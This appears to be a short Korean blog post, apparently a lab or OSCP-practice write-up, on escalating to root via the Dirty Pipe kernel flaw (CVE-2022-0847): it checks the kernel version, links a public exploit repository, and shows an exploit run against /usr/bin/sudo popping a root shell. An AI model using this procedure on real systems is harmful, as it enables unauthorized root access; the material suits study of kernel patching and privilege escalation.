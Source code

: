```yaml
---
layout: post
title: Dirtypipe 취약점
subtitle: 리눅스 커널 취약점을 이용한 권한상승
category: knowledge
thumbnail-img: /assets/img/knowledge/hazard.jpg
tags: [linux, dirtypipe, kernel, CVE-2022-0847]
author: Hong
---
```


# 커널 버전 확인
아래의 명령어로 리눅스 커널의 버전을 확인한다.
```
cat /etc/issue
Ubuntu 20.04.5 LTS \n \l

uname -r
5.9.0-050900-generic

uname -a
Linux oscp 5.9.0-050900-generic #202010112230 SMP Sun Oct 11 22:34:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
항상 보던것과는 다른 듯한 버전..

취약점을 검색해보면 아래와 같이 dirtypipe 취약점이라는 것을 알게 된다.

[CVE-2022-0847 dirtypipe](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)

# 취약점 컴파일 후 실행
위의 소스코드는 컴파일을 할 필요가 있다.

이번엔 타겟 머신에 gcc와 git이 있는 것을 활용해서 직접 git clone한 후 컴파일 했다.

```
/tmp/CVE-2022-0847-DirtyPipe-Exploits$ ./exploit-2 /usr/bin/sudo
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami
root
```
페이로드로 sudo를 실행하는 것만으로 root권한을 획득했다!

커널 버전을 항상 눈여겨 볼 것.